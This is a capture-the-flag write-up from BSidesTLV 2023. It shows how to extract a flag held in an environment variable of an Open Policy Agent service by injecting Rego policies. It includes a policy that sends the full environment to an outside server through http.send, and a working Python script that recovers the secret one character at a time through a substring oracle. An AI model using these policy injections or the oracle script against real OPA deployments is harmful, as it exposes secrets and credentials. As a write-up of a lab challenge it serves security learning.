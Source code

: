 Starting from docker-compose we notice two main services: backend, and opa.
Flag resides under env variable: FLAG under opa.

Backend is an application server written in go. viewing the src code reveals
two main endpoints: /add and /eval.

After some research about OPA (Open Policy Agent -
```https://www.openpolicyagent.org/docs/latest/```) its understandable that
the service allows to create a policy and then evaluate the policy.

On creation, there is a regexp forbidding us from putting in the policy any
char different than: ```a-zA-Z0-9=\s,:[]{}()".``` those characters.

A nice playground i used to get to know the rego (the language used to write
policies): ```https://play.openpolicyagent.org/```.

Since we know that the flag is in the env variable, I started to research how
to access env. variables from a policy, and tackled this post:  
`https://lia.mg/posts/malicious-rego/. `

Sounds promising! let's try to leak the flag via http to our endpoint, by
creating the next policy:

```  
allow {  
   request := {  
       "url": "https://MY_SERVER",  
       "method": "POST",  
       "body": opa.runtime().env,  
   }  
   response := http.send(request)  
}  
```

But unfortunately after countless tries it didn't work.

Spending some time after, continued reading the docs and tackled some builtin
functions on strings which seemed to be very interesting:  
startsWith and substring! Ok, what about leaking each character of the flag by
checking if it starts with something? sounds legit!

let's create the policy:

```  
{  
	"policy": "allow{startswith(opa.runtime().env[\"FLAG\"],\"BSidesTLV2023{\")==true}"  
}  
```

And we get res: true! That's great, but there is problem - once I wrote the
script that leaks each character, when we reach an underscore - we cannot put
it as prefix since the regexp forbids us from using underscore, so instead I
used substring:

```  
{  
	"policy": "a{substring(opa.runtime().env[\"FLAG\"],input.index,1)==input.cand}"  
}  
```

eval allows us to send parameters to the policy as input, so instead of
creating a lot of policies, we create one, and then evaluating it with two
parameters:  
the first is the char index in the flag, and the second is the char itself:

For example,  
```  
https://opa-opa-opa-opa-opa-hei.ctf.bsidestlv.com/eval  
{  
   "uuid": "c180bba7-0609-43db-8d36-e7b0d462e5b6",  
   "input": "{\"input\":{\"index\":0, \"cand\":\"B\"}}"  
}  
```  
returns True!

When the script doesn't find a match for the char, it means that its probably
an under score of some other forbidden character.  
The script:

```  
import requests  
import string  
import json

headers = {"Content-Type": "application/json; charset=UTF-8"}  
payload = {"policy":
"allow{substring(opa.runtime().env[\"FLAG\"],input.index,1)==input.cand}"}  
response = requests.post("https://opa-opa-opa-opa-opa-
hei.ctf.bsidestlv.com/add",  
                        headers=headers,  
                        data=json.dumps(payload))

policy_uuid = json.loads(response.text)

flag_length = 50  
flag = "BSidesTLV2023{"  
allowed_alphabet = string.digits + string.ascii_letters + "}"

for index in range(len(flag), flag_length, 1):  
   found = False  
   for cand in allowed_alphabet:  
       payload = {  
           "uuid": policy_uuid["uuid"],  
           "input": json.dumps({"input": {"index": index, "cand": cand}})  
       }  
       res = requests.post("https://opa-opa-opa-opa-opa-hei.ctf.bsidestlv.com/eval",  
                           headers=headers,  
                           data=json.dumps(payload))

       found = json.loads(res.text)["res"]  
       if found:  
           flag += cand  
           print(f"Found: {flag}")  
           if cand == "}":  
               print("Done")  
               exit(0)  
           break

   if not found:  
       flag += "?"  
```

Now we are left with some guessing:

`BSidesTLV2023{0paOpaoPaop?H3i?Policy3vAL}`

`BSidesTLV2023{0paOpaoPaop?H3i_Policy3vAL}`

`BSidesTLV2023{0paOpaoPaop_H3i_Policy3vAL}`

`BSidesTLV2023{0paOpaoPaopaH3i_Policy3vAL}`

`BSidesTLV2023{0paOpaoPaopAH3i_Policy3vAL}`

`BSidesTLV2023{0paOpaoPaop4H3i_Policy3vAL}`

`BSidesTLV2023{0paOpaoPaop@H3i_Policy3vAL}` correct!

captainB  
CamelRiders